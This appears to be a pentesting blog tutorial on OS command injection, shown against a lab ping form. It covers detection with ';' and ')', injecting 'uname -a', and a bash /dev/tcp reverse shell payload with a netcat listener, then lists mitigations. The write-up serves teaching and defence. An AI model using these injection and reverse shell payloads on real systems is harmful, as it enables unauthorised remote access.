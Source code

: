 ```yaml
---
title: Command Injection
date: 2022-01-01 05:49:33 +0800
categories: [WebApp And Api Pentesting, Command Injection]
tags: []
---
```


# Command Injection

***Command Injection*** is a cyber attack that involves executing arbitrary commands on a host operating system (OS). Command injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell. In this attack, the attacker-supplied operating system commands are usually executed with the privileges of the vulnerable application.

# Detecting Command Injection

In the below image, we can see that the web interface takes in ip address, pings the ip address and then returns the output to the user. By examining the outputs, we will discover that the backend is using `ping` command to ping a given ip address. 

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdpenlab2.png)

We can attempt to predict the os command that is executed, which may be `ping -c 3 [ip]`. By supplying 127.0.0.1, the command will be something like this `ping -c 3 127.0.0.1`, we can get command execution If the backend passess the supplied input to a system shell without sanitizing it. 

## with `;`

We can determine whether or not our supplied input is directly executed in a system shell using `;`. By suppliying `127.0.0.1;`, the command will be `ping -c 3 127.0.0.1;`, we will get thesame output if our supplied input is executed directly in a system shell,this is because, `;` will not break the command as it is also used to end linux command or to execute nultiple command in one line. 

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdpenlabenum1.png)

The above image shows the output of the executed command, this means our supplied input is directly executed in a system shell and it did'nt break the command as we predicted.

## with `)`

We can determine whether or not our supplied input is directly executed in a system shell using `)`. By suppliying `127.0.0.1)`, the command will be `ping -c 3 127.0.0.1)`, we will not get any output if our supplied input is executed directly in a system shell,this is because, `)` will break the linux command completely.

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdpenlabenum3.png)

The above image didn't show the output of the executed command, this means our supplied input is directly executed in a system shell and it broke the command as we predicted.

# Exploitation

## Executing `uname -a`

Given that our supplied input is directly supplied to a system shell without sanitization, we can execute our own command by taking advantage of `;`, as it is used to execute multiple system command. By suppliying `127.0.0.1;uname -a;`, our command will be something like this `ping -c 3 127.0.0.1;uname -a;`. This will make the backend server to execute two different commands, one is `ping -c 3 127.0.0.1` and the other is `uname -a`

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdpenlab4.png)

From the above image we get the output of the `uname -a` command, which is highlighted in the image.

## Getting Reverse Shell

To get a reverse shell, we used the reverse shell payload below and setup our listener using netcat i.e `nc -nlvp [port]`.

```bash
bash -c '/bin/bash -i >& /dev/tcp/10.42.0.1/10000 0>&1'
```
Then supplied the following `127.0.0.1;bash -c '/bin/bash -i >& /dev/tcp/10.42.0.1/10000 0>&1;` to the vulnerable endpoint.

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdpenlab5.png)

*getting reverse shell*

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdpenlabravkali.png)

# Mitigations

- Avoid calling OS commands directly, Instead Use Built-in library functions.
- Escape values added to OS commands specific to each OS
- Applications should run using the lowest privileges that are required to accomplish the necessary tasks.

# References

- [https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)
- [https://owasp.org/www-community/attacks/Command_Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [https://book.hacktricks.xyz/pentesting-web/command-injection](https://book.hacktricks.xyz/pentesting-web/command-injection)
- [https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)
